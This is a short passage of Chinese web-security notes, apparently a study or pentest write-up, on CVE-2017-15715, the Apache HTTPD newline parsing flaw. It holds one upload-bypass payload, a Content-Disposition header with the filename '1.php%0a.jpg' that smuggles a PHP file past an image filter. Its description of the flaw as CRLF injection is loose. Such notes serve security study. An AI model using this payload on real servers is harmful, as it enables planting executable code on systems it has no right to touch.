 



成功上传

![image-20250228105114716](../../_media/image-20250228105114716.png)





### CVE-2017-15715：Apache HTTPD 换行解析漏洞

Apache HTTPD 换行解析漏洞是一种 Web 服务器（Apache HTTPD）的安全漏洞，也被称为 CRLF 注入漏洞。

多语言编码的 Content-Disposition ：

```
Content-Disposition: form-data; name="filename"; filename*=UTF-8''1.php%0a.jpg
```

![image-20250228105539660](../../_media/image-20250228105539660.png)
